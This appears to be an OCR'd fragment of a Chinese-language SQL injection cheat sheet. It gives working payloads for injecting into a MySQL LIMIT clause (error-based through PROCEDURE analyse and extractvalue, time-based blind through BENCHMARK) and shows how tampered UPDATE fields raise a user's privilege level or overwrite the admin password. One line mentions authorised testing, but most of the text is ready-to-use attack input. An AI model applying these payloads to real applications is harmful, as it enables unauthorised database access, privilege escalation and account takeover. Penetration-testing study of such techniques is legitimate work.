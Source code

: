 (适用于5.0.0<mysql<5.6.6的版本)

```sql
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT （注入点）
```

确认有注入点前面有 order by 关键字,没法用union

在LIMIT后面可以跟两个函数，PROCEDURE 和 INTO，INTO除非有写入shell的权限，否则是无法利用的;

**报错注入：**

```sql
?id=1 procedure analyse(extractvalue(rand(),concat(0x7e,database())),1); 
```

**时间型盲注：**

直接使用sleep不行，需要用BENCHMARK代替 

```sql
?id=1 PROCEDURE analyse((select extractvalue(rand(),concat(0x7e,(IF(MID(database(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

# SQL里面只有update怎么利用？

这种方式会修改数据，很危险，在授权测试允许的情况下才考虑

一般在用户修改密码的地方

先理解这句 `SQL`

```sql
UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='$id'
```

如果此 `SQL` 被修改成以下形式，就实现了注入

**1、修改 homepage 值为`http://baidu.com', userlevel='3`**

之后 SQL 语句变为

```sql
UPDATE user SET password='mypass', homepage='http://baidu.com', userlevel='3' WHERE id='$id'
```

`userlevel` 为用户级别

**2、修改 password 值为`mypass)' WHERE username='admin'#`**

之后 `SQL` 语句变为

```sql
UPDATE user SET password='MD5(mypass)' WHERE username='admin'#)', homepage='$homepage' WHERE id='$id'
```

**3、修改 id 值为`' OR username='admin'`**
 之后 `SQL` 语句变为

```sql
UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='' OR username='admin'
```

# 其它数据库参考

[MSSQL 注入攻击与防御](https://www.anquanke.com/post/id/86011)

[Orcle注入](https://www.tr0y.wang/2019/04/16/Oracle%E6%B3%A8%E5%85%A5%E6%8C%87%E5%8C%97/index.html)

